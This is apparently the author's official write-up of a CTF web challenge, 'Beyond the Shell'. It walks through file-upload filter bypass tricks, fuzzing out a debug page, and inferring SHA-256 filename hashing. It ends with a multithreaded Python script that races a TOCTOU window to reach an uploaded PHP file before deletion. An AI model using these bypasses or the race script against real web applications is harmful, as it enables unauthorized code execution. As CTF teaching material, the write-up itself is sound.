







# Beyond the Shell - Official Writeup

Welcome back! Today we're talking into an interesting new web challenge I developed for the EYCC CTF called **Beyond the Shell**. 



---

### Initial Recon & The Upload Filter
When you first access the challenge, you get a typical web app flow: register an account, login, and access a dashboard. The application has a lot of features like a browser game and a leaderboard.



But we are only really interested in the `profile.php` page, where users are allowed to upload a custom avatar.



As a web pentester, whenever you see a file upload form, your goal is to upload a web shell. If you try to upload a standard PHP script (like `shell.php`), the server flat out rejects it with an error. 



Naturally, you start running through the standard file upload bypass checklist:
- Modifying the `Content-Type` header to `image/jpeg` while keeping the `.php` extension.
- Using double extensions like `shell.php.jpg` or `shell.jpg.php`.
- Injecting null bytes: `shell.php%00.jpg`.
- Embedding PHP code inside the EXIF data of a legitimate image using `exiftool`.
- Trying alternative PHP extensions (`.php3`, `.php5`, `.phtml`).

None of these standard tricks work. The server seems to be strictly validating both the extension and the actual contents of the file. However, if you are paying close attention to your proxy traffic, you'll notice a massive hint.

### The Suspicious Delay
While going through the avatar upload requests, you'll notice that when you upload an image, it takes quite a while to get the response. No matter the size of the image, it takes the same amount of time to give the response—about 2,000 milliseconds (2 seconds).



To understand what is happening during that 2-second delay, we need more information about the backend. The very next logical step is to run a directory brute-forcer to see if there are any hidden files or endpoints.

Running `ffuf` or `gobuster` with a standard wordlist (like `raft-small-words.txt` from SecLists) quickly yields a result.

The fuzzer finds a `debug.php` file in the web root returning an HTTP 200 OK. 
If you visit `https://ch.challs.eycc.stemeghackclub.org/debug.php` directly in your browser, you will get an error page that spits out the runtime values of several variables:

```text
tmp_name: name: error: tmpPath: /var/www/html/avatars/e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855. status: false
```

Look closely at the `tmpPath`. It contains a very long, seemingly random hexadecimal string: `e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855`. 

If you count the characters, you'll see it is exactly 64 characters long. A 64-character hex string is almost always a SHA-256 hash. If you throw this string into a hash analyzer or search for it online, you'll realize this is a very famous hash: it is the exact **SHA-256 hash of an empty string**.



Why an empty string? Because we visited the `debug.php` page directly via a GET request without actually uploading a file, so the filename parameter (`$file['name']`) was empty. 

This completely reveals the backend logic. It proves that the server takes our uploaded filename, hashes it with SHA-256, and uses that hash to save the temporary file to disk!

### The Vulnerability: Time-Of-Check to Time-Of-Use (TOCTOU)
With this deduction, we can piece together exactly what the `profile.php` upload script is doing behind the scenes:
1. It hashes our uploaded filename (e.g., `"shell.php"` -> `92fc4a95a29d181d748d812e6dde0d27e5ecb28a67ee9475d11e472b01911f64`).
2. It moves the uploaded file to `/avatars/<hash>.php`.
3. It sleeps for 2 seconds (the delay we noticed in our proxy).
4. During these 2 seconds, it temporarily stores the file to check if it is a valid image. 
5. If it's not an image, it deletes it.

This is a textbook **Time-Of-Check to Time-Of-Use (TOCTOU)** race condition. 

The flaw is that the file physically touches the disk (Time of Use) *before* the validation checks happen (Time of Check). Because of the 2-second sleep, there is a small window where our malicious `.php` file is fully live on the web server. If we can navigate to the file's URL before the server deletes it, we achieve Remote Code Execution!

### The Exploit
To exploit this, we must do two things simultaneously:
1. Make a POST request to upload `shell.php`.
2. Spam GET requests to the resulting SHA-256 hashed URL to catch the file while it exists.

If our payload is named `shell.php`, the SHA-256 hash is:
`92fc4a95a29d181d748d812e6dde0d27e5ecb28a67ee9475d11e472b01911f64`

So our target URL is: `https://ch.challs.eycc.stemeghackclub.org/avatars/92fc4a95a29d181d748d812e6dde0d27e5ecb28a67ee9475d11e472b01911f64.php`

Because the timing window is only 2 seconds, doing this manually in a browser is nearly impossible. We need to write a multi-threaded Python script to automate the race.

```python
import requests
import threading
import time

url = "https://ch.challs.eycc.stemeghackclub.org"
# We use a session object so we can maintain our login cookie across all threads
session = requests.Session()

# 1. Login to the platform
session.post(f"{url}/login.php", data={"username": "hacker", "password": "password123"}) 

# 2. Setup payload
# We upload a simple PHP echo statement
files = {'avatar': ('shell.php', '<?php echo "test"; ?>', 'application/x-php')}
target_url = f"{url}/avatars/92fc4a95a29d181d748d812e6dde0d27e5ecb28a67ee9475d11e472b01911f64.php"
flag_found = False

def upload_file():
    try:
        # This will hang for 2 seconds while the server sleeps
        session.post(f"{url}/profile.php", files=files)
    except:
        pass

def race():
    global flag_found
    # Hammer the server with requests to catch the file before deletion
    for _ in range(25):
        if flag_found: return
        try:
            res = session.get(target_url, timeout=1)
            # If our request succeeds and we see the flag format, we won!
            if "eycc{" in res.text:
                print(f"[+] Race won!\n{res.text.strip()}")
                flag_found = True
                return
        except:
            pass
        time.sleep(0.1) # Pace the requests slightly to avoid crashing the server

# Start the upload thread
t1 = threading.Thread(target=upload_file)
t1.start()

# Give the upload thread a tiny head start to establish the connection, then launch the race threads
time.sleep(0.1) 
racers = [threading.Thread(target=race) for _ in range(5)]
for r in racers: r.start()
for r in racers: r.join()
t1.join()
```

### The Flag
When you run the script, you'll win the race within a few tries. 

But there's one final twist. When your script successfully hits the `.php` file, it doesn't actually execute your `<?php echo "test"; ?>` payload. 

The server intercepts the execution and simply hands you the flag:
```text
Woah, you were so fast, you deserve a flag !! 
eycc{KACHOW_yOu_4RE_sO_F4St!}
```


